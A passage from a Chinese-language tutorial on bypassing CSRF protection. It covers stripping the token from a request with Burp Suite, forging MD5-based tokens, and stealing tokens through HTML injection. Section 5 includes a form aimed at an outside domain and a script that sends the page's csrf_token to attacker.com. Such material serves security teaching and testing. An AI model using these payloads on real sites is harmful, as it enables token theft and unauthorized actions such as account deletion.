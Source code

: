 如果应用程序在验证 CSRF 令牌时只检查其长度和格式，而不检查其实际内容，那么这个新的令牌就有可能被接受，从而成功绕过 CSRF 保护。

### 3.从请求中完全删除 CSRF 令牌

> 这种技术通常适用于帐户删除功能，其中令牌根本不经过验证，使攻击者具有通过CSRF删除任何用户帐户的优势。

但我发现它也可以在其他功能上使用。很简单，使用burpsuite拦截请求并从整个中删除令牌

这种绕过 CSRF 保护的方法基于一个假设：应用程序在处理某些请求时，可能没有严格验证 CSRF 令牌。在这种情况下，即使请求中没有 CSRF 令牌，应用程序也可能会接受并处理该请求。

示例：
假设一个应用程序有一个用于删除用户账户的功能，该功能需要一个 CSRF 令牌。

攻击步骤：
拦截请求：首先，攻击者使用工具（如 Burp Suite）拦截向服务器发送的删除账户的 HTTP 请求。

删除令牌：然后，攻击者从拦截的请求中完全删除 CSRF 令牌。

发送请求：最后，攻击者发送这个修改过的请求。

如果应用程序没有正确验证 CSRF 令牌，那么这个没有令牌的请求可能会被接受，从而导致账户被删除。

这种方法的成功与否取决于应用程序如何实施其 CSRF 保护。如果应用程序没有严格验证 CSRF 令牌，或者在没有令牌的情况下也接受请求，那么这种攻击就有可能成功。

### 4.解码 CSRF token

绕过 CSRF 的另一种方法是识别 CSRF 令牌的算法。

CSRF 令牌是 MD5 或 Base64 编码值。可以解码该值并在该算法中对下一个值进行编码，并使用该令牌。

例如“a0a080f42e6f13b3a2df133f073095dd”是MD5（122）。也可以类似地加密下一个值 MD5（123） 到 CSRF 令牌绕过。

示例：
假设一个应用程序使用 MD5 算法和一个固定的值（比如 "122"）来生成 CSRF 令牌。这样，MD5("122") 就会生成一个特定的 CSRF 令牌，比如 "a0a080f42e6f13b3a2df133f073095dd"。

攻击步骤：
识别算法：首先，你需要识别出应用程序是如何生成 CSRF 令牌的。这可能需要一些逆向工程或代码审计。

生成新令牌：一旦你知道了算法和用于生成令牌的值（在这个例子中是 "122" 和 MD5 算法），你就可以生成一个新的令牌。比如，使用 "123" 作为新的值，然后计算 MD5("123")。

替换令牌：最后，你可以在发送到服务器的请求中使用这个新生成的 CSRF 令牌，从而绕过 CSRF 保护。

如果应用程序没有其他额外的安全检查，这种方法就有可能成功。

注意：
这种方法需要对目标应用有深入的了解，包括其如何生成和验证 CSRF 令牌。

这种方法也假设应用程序的 CSRF 令牌生成方式存在缺陷，比如使用了简单的算法和固定的值。


### 5.通过 HTML 注入提取令牌
此技术利用 HTML 注入漏洞，攻击者可以利用该漏洞植入记录器，从该网页中提取 CSRF 令牌并使用该令牌。攻击者可以植入链接，例如

```html
<form action=“http://shahmeeramir.com/acquire_token.php”></textarea>
```
例如，攻击者可以在 HTML 注入的代码中添加 JavaScript，该代码会获取 CSRF 令牌并将其发送到攻击者的服务器。

```html
<script>
  var csrfToken = document.getElementsByName("csrf_token")[0].value;
  new Image().src = 'http://attacker.com/collect.php?token=' + csrfToken;
</script>
```
在这个例子中，JavaScript 代码会查找名为 csrf_token 的 HTML 元素（通常是一个隐藏的输入字段），获取其值（即 CSRF 令牌），然后通过创建一个新的 Image 对象并设置其 src 属性为攻击者服务器上的一个 URL（附加了 CSRF 令牌作为查询参数）来将其发送到攻击者的服务器。
